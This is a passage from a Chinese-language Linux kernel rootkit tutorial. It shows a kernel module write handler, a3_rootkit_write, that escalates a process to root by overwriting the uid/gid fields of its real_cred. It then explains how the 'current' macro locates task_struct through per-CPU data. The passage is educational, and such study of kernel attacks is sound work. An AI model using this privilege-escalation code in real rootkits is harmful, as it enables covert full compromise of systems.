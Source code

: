 **<a class="reference-link" name="%E6%96%B9%E6%B3%95II.%E7%9B%B4%E6%8E%A5%E4%BF%AE%E6%94%B9%20cred%20%E7%BB%93%E6%9E%84%E4%BD%93"></a>方法II.直接修改 cred 结构体**

前面我们讲到，`prepare_kernel_cred()` 函数用以将一个新的 cred 应用到当前进程，我们来观察其源码相应逻辑：

```
int commit_creds(struct cred *new)
`{`
    struct task_struct *task = current;
    const struct cred *old = task-&gt;real_cred;

    ...
```

在该函数开头直接通过宏 `current` 获取当前进程的 `task_struct`，随后修改的是其成员 `real_cred`，那么我们在内核模块中同样可以直接通过该宏获取当前进程的 task_struct 结构体，从而直接修改其 real_cred 中的 uid 以实现到 root 的提权

那么我们的代码可以修改如下：

```
static ssize_t a3_rootkit_write(struct file * __file, const char __user * user_buf, size_t size, loff_t * __loff)
`{`
    struct task_struct *task = current;
    struct cred *old = task-&gt;real_cred;
    old-&gt;gid = old-&gt;sgid = old-&gt;egid = KGIDT_INIT(0);
    old-&gt;uid = old-&gt;suid = old-&gt;euid = KUIDT_INIT(0);
    return 0;
`}`
```

这里需要注意的是 uid 与 gid 的类型为封装为结构体的 `kuid_t` 与 `kgid_t` 类型，应当使用宏 `KGIDT_INIT()` 与 `KUIDT_INIT()` 进行赋值

还是使用之前的例程简单测试一下，可以看到当我们的进程写入设备之后便提权到了 root，不同的是我们只修改了几个 uid 和 gid，所以原进程的其他信息依旧会保留，这里也可以选择把其他的一并改掉

[![](https://p3.ssl.qhimg.com/t01fb5ed69b5ba25d45.png)](https://p3.ssl.qhimg.com/t01fb5ed69b5ba25d45.png)

<a class="reference-link" name="current%EF%BC%9ACPU%20%E5%B1%80%E9%83%A8%E5%8F%98%E9%87%8F%E4%BF%9D%E5%AD%98%E5%BD%93%E5%89%8D%E8%BF%9B%E7%A8%8B%20task_struct%20%E7%BB%93%E6%9E%84%E4%BD%93"></a>**current：CPU 局部变量保存当前进程 task_struct 结构体**

这里**简单**讲一下宏 `current` 的是如何获取当前进程的 task_struct 的：该宏定义于内核源码 `arch/x6/include/asm/current.h` 中，展开后为函数 `static __always_inline struct task_struct *get_current(void)` ，该函数只有一句 `return this_cpu_read_stable(current_task);`：

其中 `current_task` 为 CPU 局部变量，在头文件开头使用宏 `DECLARE_PER_CPU` 从外部引入该变量，该宏定义于 `include/linux/percpu-defs.h` 中，展开后为 `DECLARE_PER_CPU_SECTION(type, name, "")`，该宏再度展开为 `extern __PCPU_ATTRS(sec) __typeof__(type) name`，该宏再度展开为 `__percpu __attribute__((section(PER_CPU_BASE_SECTION sec))) PER_CPU_ATTRIBUTES`，其中宏 `PER_CPU_BASE_SECTION` 定义于 `include/asm-generic/percpu.h`中，SMP（多对称处理）下展开为字符串 `".data..percpu"`。最终展开为 `__attribute__((section(".data..percpu"))) (type) name`，其中 `__attribute__` 宏为 gcc 的特殊机制，具体的参见[手册](https://gcc.gnu.org/onlinedocs/gcc-10.2.0/gcc/Common-Function-Attributes.html#Common-Function-Attributes)

那么我们可以知道该宏最终便是**外部引用了一个位于 .data..percpu 这一数据段中**的 task_struct 类型的变量 current_task

接下来看宏 `this_cpu_read_stable`，该宏定义于 `arch/x86/include/asm/percpu.h` 中，展开为 `__pcpu_size_call_return(this_cpu_read_stable_, pcp)`，再度展开为如下：
